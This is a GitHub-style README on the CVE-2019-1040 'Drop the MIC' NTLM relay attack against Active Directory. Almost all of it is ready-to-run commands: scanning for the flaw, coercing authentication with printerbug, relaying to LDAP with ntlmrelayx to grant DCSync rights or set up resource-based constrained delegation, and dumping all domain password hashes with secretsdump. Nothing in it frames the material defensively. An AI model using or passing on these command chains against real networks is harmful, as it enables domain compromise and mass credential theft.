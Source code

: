 # Drop the MIC CVE-2019-1040

### The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

#### 1) Check vulnerability with cve-2019-1040-scanner https://github.com/fox-it/cve-2019-1040-scanner

 - python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'

### Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD

 - python printerbug.py testsegment.local/username@s2012exc.testsegment.local (Terminal 1)

 - ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local (Terminal 2)

 - secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc (Terminal 1)

### Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.

 - ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access (Create new machine account)

 - python printerbug.py relaytest.local/username@second-dc-server 10.0.2.6 (Terminal 2)

 - getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD'

### Connect using the ticket

 - export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache

 - secretsdump.py -k -no-pass second-dc-server.local -just-dc

